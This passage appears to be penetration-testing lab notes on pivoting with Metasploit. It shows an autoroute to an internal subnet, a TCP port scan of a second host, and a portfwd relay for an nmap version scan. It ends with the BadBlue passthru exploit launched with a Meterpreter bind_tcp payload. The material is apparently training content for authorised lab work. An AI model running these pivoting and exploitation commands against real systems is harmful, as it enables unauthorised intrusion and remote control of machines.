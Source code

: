 ![run autoroute -s 10.2.30.0/20](.gitbook/assets/image-20230420000244119.png)

- Now, subnet `10.2.30.0/20` can be accessed with `MSFconsole`

```bash
background
sessions -n target-1 -i 1
```

- Scan for open ports on the target2 system - `10.2.21.166`

```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.21.166
set PORTS 1-100
run
```

![](.gitbook/assets/image-20230420000616301.png)

- 📌 The route is only applicable to `MSFconsole`, not outside of it

#### Port Forwarding

- To perform an `nmap` scan on target2, a port forwarding need to be set up.
  - **`e.g.`** forward the remote port `80` to an attacker machine local port, which will allow to perform a service version enumeration of the target2 service

```bash
sessions 1
```

```bash
portfwd add -l 1234 -p 80 -r 10.2.21.166
	[*] Local TCP relay created: :1234 <-> 10.2.21.166:80

background
```

```bash
db_nmap -sS -sV -p 1234 localhost
```

![](.gitbook/assets/image-20230420001155244.png)

![http://localhost:1234/](.gitbook/assets/image-20230420001255894.png)

```bash
search badblue
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.21.166
set LPORT 4433
run
```
